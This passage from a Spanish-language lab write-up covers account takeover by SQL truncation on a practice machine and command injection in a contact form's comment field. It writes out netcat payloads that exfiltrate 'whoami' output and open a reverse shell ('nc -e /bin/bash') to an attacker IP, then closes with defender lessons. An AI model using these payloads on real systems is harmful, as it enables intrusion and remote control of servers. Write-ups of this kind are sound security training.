

Se rellena el formulario con `jacob@tornado` + un espacio + un carácter adicional (`a`), totalizando 15 caracteres — por encima del límite de 13 de la columna.

#### 24. Formulario de registro cargado con el payload de truncado



El registro se completa con éxito.

#### 25. Registro exitoso del payload de truncado SQL



Se inicia sesión con `jacob@tornado` y la contraseña elegida por el atacante, confirmando la toma de control de la cuenta mediante el truncado SQL.

#### 26. Login como jacob@tornado



#### 27. Acceso al dashboard como jacob@tornado



Dentro del área autenticada como `jacob@tornado`, la sección `contact.php` expone un campo de texto libre ("comment") cuyo contenido se procesa en el servidor. Se prepara primero un listener en la máquina atacante.

#### 28. Listener netcat en escucha



Se prueba la conectividad desde el campo de comentario con un payload simple de netcat apuntando a la IP y puerto del listener.

#### 29. Payload de prueba de conexión en el campo comment



El listener recibe la conexión, confirmando que el campo es vulnerable a inyección de comandos del sistema operativo (OS Command Injection) y que la ejecución se produce con el usuario `www-data`.

#### 30. Conexión recibida — usuario www-data



Se confirma la inyección encadenando un comando (`whoami`) junto con la salida redirigida por netcat.

#### 31. Payload `test; whoami | nc 192.168.1.172 433`



Finalmente se envía un payload de shell inversa completa con netcat (`-e /bin/bash`) para obtener una sesión interactiva.

#### 32. Payload `test; nc -e /bin/bash 192.168.1.172 433`



El listener recibe la shell y confirma de nuevo el usuario con el que corre el servidor web.

#### 33. Shell recibida como www-data



En este punto se obtiene acceso remoto a la máquina como `www-data`, logrando el objetivo de la fase de explotación.

## Escalada de privilegios

No se ha abordado una fase de escalada de privilegios en esta máquina: el objetivo del laboratorio se centraba en el acceso inicial mediante el ataque de truncado SQL y la posterior inyección de comandos en el panel autenticado, concluyendo con la obtención de una shell como `www-data`.

## Lecciones aprendidas

### Desde el punto de vista del atacante

- Un listado de directorio de Apache expuesto (`/~tornado/`) y un comentario HTML olvidado en el código fuente (`port.php`) filtraron la ruta de un fichero interno con información sensible: una lista de usuarios válidos del sistema.
- Un atributo `maxlength` del lado cliente, pensado como ayuda visual del formulario, reveló indirectamente el ancho real de una columna en la base de datos — una pista aprovechable para un ataque de truncado SQL.
- Al comprobar la unicidad de un registro sobre la cadena completa, pero insertarlo truncado por el ancho de columna, es posible registrar una variante de un email existente que termina colisionando con la cuenta real, permitiendo tomar el control de ella sin conocer la contraseña original.
- Un campo de "comentario" sin ningún tipo de sanitización permitió inyectar comandos del sistema operativo directamente, derivando en una shell remota.

### Desde el punto de vista del defensor

- Desactivar el listado automático de directorios en Apache (`Options -Indexes`) y eliminar cualquier comentario de depuración o rutas internas del HTML servido en producción.
- Validar la longitud de los campos siempre en el servidor, nunca confiar en restricciones del lado cliente (`maxlength`, `pattern`, etc.), y usar el modo estricto de SQL (`STRICT_ALL_TABLES`) para que MySQL rechace inserciones que excedan el ancho de columna en lugar de truncarlas silenciosamente.
- Comprobar la unicidad de un registro sobre el mismo valor que realmente se va a almacenar (ya truncado/normalizado), no sobre la cadena recibida sin procesar.
- Nunca pasar datos de entrada del usuario directamente a una llamada del sistema operativo (`exec`, `system`, `shell_exec`, etc.); usar listas blancas de valores permitidos o APIs que no invoquen un shell, y ejecutar el servicio web con un usuario de mínimos privilegios.

---

*Writeup educativo en entorno controlado.*
